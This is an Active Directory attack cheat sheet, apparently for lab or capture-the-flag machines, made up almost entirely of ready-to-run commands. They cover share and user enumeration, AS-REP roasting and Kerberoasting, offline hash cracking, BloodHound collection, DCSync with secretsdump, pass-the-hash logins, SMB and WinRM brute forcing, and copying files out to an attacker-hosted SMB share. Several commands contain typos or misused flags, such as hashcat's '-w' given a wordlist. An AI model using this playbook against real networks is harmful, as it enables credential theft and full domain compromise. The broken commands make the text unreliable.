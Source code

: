 ## Active Directory 
### Machine workflow
- [Enumerate Ports and Shares](#enum)
- [Identify valid users](#user)
- [Obtain users has who have kerberos pre auth set](#gnp)
- [Crack the hash to obtain the password](#cra)
- [Repeat Recon](#rrpc)
- [Enumerate other users in the network](#enumu)
- [Remote login if hash is obtained](#pwn)

### Enumeration Ports <a name="enum"></a>
```bash
# nmap 
nmap -p- --min-rate=1000 -oN ports -vv <machine-ip>
# sorting ports
open=$(cat ports | grep ^[0-9] | cut -d '/' -f1 | tr '\n' ',' | sed s/,$//))
# enumerate services
nmap -sC -sV -p$open -oN nmap.out -T4 -vv <machine-ip>
```

### Anonymous Access
```bash
# crackmapexec
crackmapexec smb <machine-ip> -u'' -p'' <machine-ip> --shares

# smbclient
smbclinet -N -L \\<machine-ip>\\

#rpcclinet
rpcclient -U '' -P'' <machine-ip> # logs into the network if anon login is permitted
rpcclinet $> enumdomusers # enumerates the AD users
```

### Accessing a SMB Share
```bash
# smbclient
smbclient \\\\<machine-ip>\\<share-name>
```

### User Enumeration <a name='user'></a>

- kerbrute

```bash
# no authentication is required, just the user name list
# enumerate AD users with kerbrute
kerbrute userenum --dc 10.10.*.* -d <domain-name> <username(s)>
```

### Mounting an open share

```bash
# mount an anonymous login share
sudo mount -t cifs '//10.10.*.*/ShareName' /<mount-location>
```

### Kerberos Hacking <a name="gnp"></a>
```bash
# after obtaining valid users, look for users with kerberos preauth set
GetNPUsers.py -dc-ip <machine-ip> -format hashcat -usersfile <username(s)> <domain-name>/ -outputfile <hash-output>
```

### Obtaining Password <a name="cra"></a>
```bash
# cracking with hashcat
# TGT hash crack
hashcat -m 18200 -w /usr/share/wordlists/rockyou.txt <hash-file>
# SPN hash crack
hashcat -m 13100 -w /usr/share/wordlists/rockyou.txt <hash-file>

# cracking with JOHN THE RIPPER
# TGT hash crack
john --format=krb5tgs -w=/usr/share/wordlists/rockyou.txt <hash-file>
```

### Recon as a user in network <a name='rrpc'></a>
```bash
# since we have the user credentials for a user in the AD network, recon again to obtain files with specific permissions

# enumerate smb shares
crackmapexec smb <machine-ip> -u '<username>' -p '<password>'  --shares

# accessing smb share
smbclient -L \\\\<machine-ip>\\<share-name> -U <username> <password>

# mounting the share
sudo mount -t cifs -o 'username=UserName,password=Password' '//10.10.*.*/ShareName' /<mount-location>

# enumerate anything ¯\_(ツ)_/¯ with windsearch 
windsearch -d <domain-name> -u <user-name> -p <password> -m <module>
```

### Enumerate other users <a name="enumu"></a>
```bash
# a valid login into the network is required
# getadusers.py from impackets
GetADUsers.py --all -dc-ip <machine-ip> <domain-name>/<username>:<password> # TGT will be obtained which can be cracked offline

# enumerate service name principles
GetUserSPNs.py -request -dc-ip <machine-ip> <domain-name>/<username>:<password> # SPN hash will be obtained which can be cracked offline

# via rpcclient
rpcclient -U <username> -P <password> <machine-ip> #logged into the network
rpcclinet $> enumdomusers # enumerate users in the active directory environment

# crackmapexec
crackmapexec smb <machine-ip> -u <username> -p <password> --users

# windsearch 
windsearch -d <domain-name> -u <user-name> -p <password> -m users
```

### Bloodhound Enumeration <a name='bh'></a>
```bash
# setup
git clone https://github.com/fox-it/BloodHound.py; cd BloodHound.py; python3 setup.py install

# Running bloodhound.py (run on linux)
python3 bloodhound.py -u <username> -p <password> -ns <machine-ip> -d <domain> -c all 
```
```powershell
# with sharpsploit
powershell -ep bypass
import-module .\SharpHound.ps1
invoke-bloodhound -collectionmethod all -domain <domain-name> -ldapuser <user-name> -ldappass <password>
```

```bash
# start the neo4j console
sudo ne04j console

# start the bloodhound
cd /opt/bloodhound-linux-x64/
./BloodHound

# import all the json files
# mark the obtained user as owned user and the target user as high value target
```

### Owning the machine <a name='pwn'></a>
```bash
# perform bloodhound enumeration
# if the access to the backup account is obtained,
secretsdump.py -dc-ip <machine-ip> -just-dc <domain-name>/backup:<password>@<domain-name>

# login to the machine

# psexec.py
# with password
psexec.py <domain-name>/<username>:<password>@<domain-namee>
# with ntlm hash
psexec.py -hashes <ntml:hashes> <username>@<domain-name> -target-ip <machine-ip> -dc-ip <machine-ip>
psexec.py -hashes <ntlm:hashes> <username>@<machine-ip>


# evilwinrm
# with password
evilwinrm -i <machine-ip> -u <username> -p <password>
# with ntlm hash
evilwinrm -i <machine-ip> -H <ntlm hash from secretsdump> -u <username>
```

### Misc

#### Bruteforce
##### Hydra
```bash
# bruteforcing smb login
hydra -L users.txt -P pass.txt 10.10.*.* smb
```
##### Crackmapexec
```bash
# bruteforcing smb login, enumerating the available shares with --shares option
crackmapexec smb 10.10.*.* -u user.txt -p pass.txt --shares --continue-on-success

# bruteforcing winrm login
crackmapexec winrm 10.10.*.* -u users.txt -p pass.txt --continue-on-success 
```
##### Medusa
```bash
# bruteforcing smb login
medusa -h 10.10.*.* -U users.txt -P pass.txt -M smbnt 
```

#### File Transfer
##### SMB Service
```bash
# start a smb service in linux
# anonymous share
smbserver.py <share-name> . -smb2support
# authenticated share
smbserver.py <share-name> . -smb2support -username <username> -password <password>

# connect to the smbshare in windows
# anonymous share
net use x: \\<linux-ip>\<share-name>
# authenticated share
net use x: \\<linux-ip>\<share-name> /u:<username> <password>

# Copy file from windows to linux
copy <file-in-windows> \\<linux-ip>\<share-name>\
# copy files from linux to windows
copy \\<linux-ip>\<share-name>\<file.ext> .

```

https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a
https://cheatsheet.haax.fr/windows-systems/exploitation/impacket/
https://cheatsheet.haax.fr/windows-systems/exploitation/kerberos/